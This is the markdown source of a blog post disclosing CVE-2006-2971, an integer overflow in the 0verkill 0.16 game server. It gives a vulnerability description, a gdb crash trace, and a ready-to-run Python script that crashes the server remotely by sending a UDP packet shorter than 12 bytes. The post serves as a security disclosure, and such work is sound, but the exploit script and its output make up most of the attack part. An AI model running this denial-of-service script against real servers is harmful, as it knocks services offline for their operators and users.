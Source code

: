 ```yaml
---
layout: post
title:  "CVE-2006-2971 – 0verkill Remote Integer Overflow Crash Exploit"
date:   2006-06-09 00:00:00
categories: security
permalink: post/CVE-2006-2971-0verkill-remote-integer-overflow/
---
```


### Vendor

[http://artax.karlin.mff.cuni.cz/~brain/0verkill/][0verkill]

[0verkill]:	http://artax.karlin.mff.cuni.cz/~brain/0verkill/	"0verkill"

> 0verkill is bloody 2D action deathmatch-like game in ASCII-ART running under Linux, OS/2 and Windows.

### Description

Integer overflow in the recv_packet function in `0verkill 0.16` allows remote attackers to cause a denial of service (daemon crash) via a UDP packet with fewer than 12 bytes, which results in a long length value to the crc32 function.

### Debug with gdb

{% highlight bash %}
(gdb) run
Starting program: /home/federico/0verkill-0.16/server
9. 6.2006 14:18:07  Running 0verkill server version 0.16
9. 6.2006 14:18:07  Initialization.
9. 6.2006 14:18:07  Loading sprites.
9. 6.2006 14:18:07  Loading level "level1"....
9. 6.2006 14:18:07  Loading level graphics.
9. 6.2006 14:18:08  Loading level map.
9. 6.2006 14:18:08  Loading level objects.
9. 6.2006 14:18:08  Initializing socket.
9. 6.2006 14:18:08  Installing signal handlers.
9. 6.2006 14:18:08  Game started.
9. 6.2006 14:18:08  Sleep
9. 6.2006 14:18:10  Wakeup

(run python f_0k-0.6.py localhost 65525)

Program received signal SIGSEGV, Segmentation fault.
crc32 (buf=0x837a000 <Address 0x837a000 out of bounds>, len=4294967288) at crc32.c:82
warning: Source file is more recent than executable.
82            DO8(buf);
#
#0  0x0805b54a in recv_packet (packet=0x805fd20 "",
max_len=256, addr=0xf18df475, addr_len=0xf18df475, sender_server=0, recipient=0,
sender=0xbfcf6d54) at net.c:94
94              if (crc!=crc32(packet,retval-12))return -1;
#

# limits byte receive is 12, if you send an inferior number of it the game crash.
{% endhighlight %}

### Denial of service code snippet

{% highlight python %}
#!/usr/bin/env python

import os, sys
from socket import *

usage = "run: python %s [remote_addr] [remote_port] " % os.path.basename(sys.argv[0])

if len(sys.argv) < 3:
    print usage
    sys.exit()

host = sys.argv[1]
port = int(sys.argv[2])

sock = socket(AF_INET, SOCK_DGRAM)
sock.connect((host, port))

print "connecting.. ",
if sock > 0:
    print "done!"
else:
    print "wrong!"

print "crashing the server.. ",
if sock.sendto('0x00' , (host, port)):
    print "done!"
else:
    print "wrong!"

print "wait five seconds, if no data found press CTRL+C"
try:
    reply = sock.recvfrom(512)
    print reply
except:
    print "no data receive!"
    sys.exit()
{% endhighlight %}

### References

* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-2971][mitre]
* [http://www.securityfocus.com/bid/18353][securityfocus]
* [http://www.osvdb.org/26029][osvdb]
* [http://secunia.com/advisories/20551][secunia]

[mitre]:			http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-2971 "CVE-2006-2971"
[securityfocus]:	http://www.securityfocus.com/bid/18353						"SecurityFocus-18353"
[osvdb]:			http://www.osvdb.org/26029									"OSVDB-26029"
[secunia]:			http://secunia.com/advisories/20551							"Secunia-20551"